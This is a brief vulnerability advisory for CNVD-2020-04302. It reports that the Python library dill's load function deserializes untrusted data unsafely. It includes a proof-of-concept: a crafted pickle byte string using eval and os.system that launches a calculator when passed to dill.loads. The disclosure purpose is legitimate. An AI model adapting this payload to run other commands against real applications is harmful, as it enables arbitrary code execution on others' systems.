# CNVD-2020-04302

- Product: dill
- Version: all

## Details

- `dill.load` with evil data can lead to arbitary python code execution
	- `pickle.load`(without check) exists in `dill.load`

### PoC
```python
import dill
# import pickle
# class A():
#     def __reduce__(self):
#         return eval, ("__import__('os').system('calc')",)
#
#
# x = [A()]
# res = pickle.dumps(x)
# print(res)
res = b"\x80\x04\x95>\x00\x00\x00\x00\x00\x00\x00]\x94\x8c\x08builtins\x94\x8c\x04eval\x94\x93\x94\x8c\x1f__import__('os').system('calc')\x94\x85\x94R\x94a."
dill.loads(res)

```